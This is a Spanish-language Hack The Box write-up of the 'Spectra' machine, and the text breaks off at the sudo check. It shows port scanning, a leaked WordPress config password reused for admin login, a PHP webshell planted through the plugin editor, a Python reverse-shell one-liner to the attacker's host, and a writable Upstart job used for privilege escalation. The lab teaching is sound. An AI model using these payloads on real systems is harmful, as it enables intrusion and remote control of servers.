# Spectra — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Linux  
**Autor de la máquina:** Xh4H  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · Virtual Host (`spectra.htb`) · Wfuzz · Directory Listing · `wp-config.php.save` filtrado · WordPress Plugin Editor (RCE) · Reverse shell · CloudReady/ChromeOS · `sudo initctl` · Upstart job hijacking → root

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — WordPress Plugin Editor](#3-acceso-inicial--wordpress-plugin-editor)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.29.24
```



Salida obtenida:

```text
64 bytes from 10.129.29.24: icmp_seq=1 ttl=63 time=32.9 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP, suficiente para confirmar que el host está activo. El valor `TTL=63` indica que estamos frente a una máquina **Linux** (los sistemas Linux inician el TTL en 64).

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.29.24 -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza velocidad mínima de paquetes |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

> 💡 La combinación de **HTTP (80)** junto a un **MySQL (3306)** expuesto directamente sugiere una aplicación web con backend de base de datos, probablemente mal segmentada de la red interna. El vector de entrada más probable es el servicio web.

---

### Enumeración detallada

Una vez identificados los puertos abiertos, lanzamos un escaneo más profundo con detección de versiones y scripts NSE.

```bash
nmap -sCV -T5 -n -p22,80,3306 10.129.29.24 -oN Ports
```



Salida relevante:

```text
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
80/tcp   open  http    nginx 1.17.4
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.17.4
3306/tcp open  mysql   MySQL (unauthorized)
```

### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

> 💡 El servidor web usa **nginx 1.17.4** y no devuelve título, algo típico cuando el sitio depende de un **virtual host** que no coincide con la IP directa. El puerto MySQL responde "unauthorized", lo que confirma que el servicio está activo pero requiere credenciales válidas.

---

## 2. Enumeración del servicio web

Accedemos por IP directa al puerto `80` con las DevTools abiertas para inspeccionar el HTML servido.

```text
http://10.129.29.24
```



La página muestra un **"Issue Tracking"** con dos enlaces que revelan la estructura interna de la aplicación:

```html
<a href="http://spectra.htb/main/index.php" target="mine">Software Issue Tracker</a>
<a href="http://spectra.htb/testing/index.php" target="mine">Test</a>
```

Los enlaces usan el dominio **`spectra.htb`** en lugar de la IP, lo que confirma que el servidor está configurado con **virtual hosting** y solo responde correctamente si la petición llega con ese `Host`. Añadimos la entrada correspondiente en `/etc/hosts`.

```bash
echo "10.129.29.24 spectra.htb" | sudo tee -a /etc/hosts
```



> 💡 Sin esta entrada, cualquier petición por IP directa a nginx cae en un vhost por defecto vacío ("Site doesn't have a title"). Es un patrón muy común en HTB: la página raíz solo sirve como pista para descubrir el nombre de dominio real.

---

### Fuzzing de directorios con Wfuzz

Con el vhost resuelto, enumeramos rutas ocultas bajo `spectra.htb`.

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://spectra.htb/FUZZ/
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-c` | Salida coloreada |
| `-t 200` | 200 hilos concurrentes |
| `--hc=404` | Oculta respuestas 404 |
| `-w` | Diccionario |
| `FUZZ` | Marcador de la posición a fuzzear |

Resultado relevante:

```text
000000077:  200   346 L  1460 W  25940 Ch   "main"
000001472:  200    26 L   111 W   2514 Ch   "testing"
```

Confirmamos dos directorios: **`/main/`** (la instancia de producción) y **`/testing/`** (un entorno de pruebas, probablemente menos hardened).

---

### `/testing/` con directory listing habilitado

Accedemos a `/testing/` y encontramos que nginx sirve el **listado de directorios sin restricción**.

```text
http://10.129.29.24/testing/
```



Entre los ficheros expuestos aparecen `wp-config.php`, `wp-config.php.save` y toda la estructura típica de **WordPress**. El fichero `.save` es un artefacto que suelen dejar editores de texto (vim, nano) al guardar una copia de seguridad durante la edición — y **no está protegido** por el intérprete PHP, por lo que se sirve como texto plano.

> 💡 Un `directory listing` abierto en un entorno de "testing" es una de las fugas de información más comunes: expone backups, ficheros `.bak`/`.save`/`.old` y estructuras internas que en producción estarían ocultas.

Verificamos primero la instancia de producción en `/main/`:

```text
http://10.129.29.24/main/
```



Confirmamos un WordPress **"Software Issue Management"** con el post por defecto "Hello world!", indicando una instalación mínimamente configurada.

---

### Filtrado de credenciales vía `wp-config.php.save`

Descargamos el fichero de configuración filtrado en `/testing/`.

```bash
curl http://spectra.htb/testing/wp-config.php.save
```



Contenido relevante:

```php
define( 'DB_NAME', 'dev' );
define( 'DB_USER', 'devtest' );
define( 'DB_PASSWORD', 'devteam01' );
define( 'DB_HOST', 'localhost' );
```

> 💡 El patrón `usuario:contraseña` = `devtest:devteam01` es propio de un entorno de desarrollo con credenciales débiles y, con frecuencia, **reutilizadas** en otros paneles del mismo proyecto (WordPress admin, SSH, etc.). Este es el hilo del que tiramos a continuación.

---

## 3. Acceso inicial — WordPress Plugin Editor

Accedemos al panel de login de la instancia de producción:

```text
http://10.129.29.24/main/wp-login.php
```



Probamos la contraseña filtrada en `wp-config.php.save` (`devteam01`) contra el usuario **`administrator`**, asumiendo reutilización de credenciales entre el entorno de desarrollo y el panel de administración de WordPress. El acceso es válido:



> 💡 Reutilizar la misma contraseña entre la base de datos de "testing" y la cuenta de administrador de producción es un fallo de higiene de credenciales extremadamente habitual — y aquí resulta ser la clave de todo el compromiso.

---

### Edición de plugin vulnerable (RCE)

Con acceso de administrador, WordPress permite editar directamente el código PHP de los plugins instalados desde **Plugins → Editor de plugins**. Seleccionamos el plugin **Akismet Anti-Spam**, que está inactivo y por tanto no interfiere con el funcionamiento del sitio.



Sustituimos el contenido de `akismet.php` por una webshell mínima:

```php
<?php
system($_GET['cmd']);
```



> 💡 El **Editor de plugins/temas** de WordPress es funcionalmente equivalente a una consola de ejecución de código arbitrario: cualquier cuenta con rol de `administrator` puede escribir PHP directamente al disco y este se ejecutará con los permisos del servidor web. Es una de las rutas de **RCE post-autenticación** más directas en WordPress.

Confirmamos, apoyándonos en el directory listing de `/testing/`, la ruta física donde queda el plugin modificado:

```text
http://10.129.29.24/testing/wp-content/plugins/akismet/
```



---

## 4. Obtención de shell

Accedemos al fichero modificado en la instancia de producción, pasando un comando por el parámetro `cmd`:

```text
http://10.129.29.24/main/wp-content/plugins/akismet/akismet.php?cmd=id
```



Salida obtenida:

```text
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx) Hi there! I'm just a plugin, not much I can do when called directly.
```

✅ RCE confirmada como el usuario del servidor web (`nginx`).

Antes de lanzar la reverse shell, ponemos un listener a la escucha con Netcat.

```bash
nc -lvnp 443
```



Generamos el payload de reverse shell en Python3 con ayuda de un generador de payloads (revshells.com):

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.200",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```



Codificamos el payload en la URL y lo lanzamos vía el parámetro `cmd` de la webshell. Recibimos la conexión en el listener:



```text
connect to [10.10.14.200] from (UNKNOWN) [10.129.29.24] 38362
nginx@spectra /usr/local/share/nginx/html/main/wp-content/plugins/akismet $
```

✅ Shell interactiva como **`nginx`**, el usuario que ejecuta el servidor web.

---

### Escalada de privilegios

#### Descubrimiento del sistema base (CloudReady / ChromeOS)

Enumerando el sistema de ficheros encontramos artefactos que delatan un sistema operativo poco habitual: una distribución basada en **Chromium OS / CloudReady**, en lugar de una distribución Linux tradicional.

```bash
cd /opt && ls
cat autologin.conf.orig
```



El script `autologin.conf.orig` es un job de **Upstart** (el sistema de inicio usado por Chromium OS) que lee una contraseña de auto-login desde `/mnt/stateful_partition/etc/autologin` (o `/etc/autologin` como alias). Comprobamos si el fichero existe en este sistema:

```bash
cd /etc/autologin
cat passwd
```

```text
SummerHereWeCome!!
```

> 💡 Este tipo de configuración de auto-login es habitual en dispositivos ChromeBox/ChromeBit orientados a kiosco. La contraseña queda almacenada en claro en el sistema de ficheros para que el proceso de arranque la inyecte automáticamente en el prompt de login — un diseño pensado para hardware físico, pero que en un servidor expuesto se convierte en una credencial reutilizable.

#### Movimiento lateral a `katie`

Listamos los usuarios del sistema y probamos la contraseña encontrada contra las cuentas disponibles.

```bash
cd /home && ls
```



```text
chronos  katie  nginx  root  user
```

Probamos la contraseña `SummerHereWeCome!!` contra el usuario `katie` vía SSH:

```bash
ssh katie@10.129.29.24
```



El acceso es correcto. Comprobamos el contexto del usuario:

```bash
id
```



```text
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
```

`katie` pertenece al grupo **`developers`**, un grupo no estándar que apunta a permisos especiales dentro del sistema.

---

#### Enumeración de privilegios de `developers`

Buscamos todos los recursos asociados a ese grupo.

```bash
find / -group developers 2>/dev/null
```



Resultado relevante:

```text
/etc/init/test.conf
/etc/init/test1.conf ... test10.conf
/srv
/srv/nodetest.js
```

Inspeccionamos los permisos de esos ficheros de configuración de **Upstart** (el sistema de inicio de servicios de Chromium OS, análogo a `systemd`):

```bash
ls -la /etc/init | grep "test"
```



```text
-rw-rw---- 1 root developers 478 Jun 29 2020 test.conf
-rw-rw---- 1 root developers 478 Jun 29 2020 test1.conf
...
```

Los ficheros `test*.conf` pertenecen a `root:developers` con **permisos de escritura para el grupo**. Como `katie` está en `developers`, puede **modificar libremente el contenido de estos jobs de Upstart**, que se ejecutan con privilegios de `root` cuando el demonio `init` los lanza.

Comprobamos además los privilegios de `sudo`:

```bash
sudo -l
```

